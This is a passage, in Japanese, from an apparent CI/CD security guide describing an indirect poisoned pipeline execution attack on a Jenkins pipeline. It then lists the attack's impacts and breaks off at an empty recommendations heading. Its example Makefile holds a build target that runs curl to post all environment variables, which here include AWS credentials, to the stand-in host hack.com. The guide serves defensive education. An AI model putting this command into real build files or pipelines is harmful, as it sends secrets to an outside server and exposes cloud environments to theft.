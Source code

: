 ![alt_text](assets/images/ippe.jpg)

このシナリオでは、I-PPE 攻撃は以下のように実行されます。



1. 攻撃者は _Makefile_ ファイルに悪意のあるコマンドを追加して、リポジトリにプルリクエストを作成します。


```MAKEFILE
build:
   curl -d "$$(env)" hack.com

clean:
   echo "cleaning…"

```



2. パイプラインはリポジトリに対する PR でトリガーされるように構成されているため、Jenkins パイプラインがトリガーされ、悪意のある _Makefile_ を含むコードをリポジトリからフェッチします。
3. パイプラインはメインブランチに保存されている構成ファイルに基づいて実行されます。 _build_ ステージに入ると、元の Jenkinsfile で定義されているように AWS 認証情報を環境変数にロードします。次に _make build_ コマンドを実行し、_Makefile_ に追加した悪意のあるコマンドを実行します。
4. Makefile で定義された悪意のある _build_ 機能が実行され、AWS 認証情報を攻撃者がコントロールするサーバーに送信します。
5. そうして、攻撃者は窃取した認証情報を使用して AWS 本番環境にアクセスできます。


## 影響

PPE 攻撃が成功すると、攻撃者はレビューされていない悪意のあるコードを CI 内で実行します。これにより攻撃者は以下のようなビルドジョブと同じ能力とアクセスレベルを得ます。



* 環境変数として注入されたシークレットや CI に保存された追加のシークレットなど、CI ジョブが利用可能な任意のシークレットへのアクセス。コードのビルドとアーティファクトのデプロイを担当する CI/CD システムには一般的に、クラウドプロバイダ、アーティファクトレジストリ、SCM 自体などへの価値の高い認証情報やトークンが多数含まれています。
* ノードのファイルシステムに保存されているファイルや、基盤となるホストを介してアクセスできるクラウド環境への認証情報など、ジョブノードがパーミッションを持つ外部資産へのアクセス。
* ビルドプロセスによってビルドされた正当なコードを装って、パイプラインにコードやアーティファクトを出荷する能力。
* ジョブノードのネットワークや環境内で追加のホストや資産にアクセスする能力。

## 推奨事項
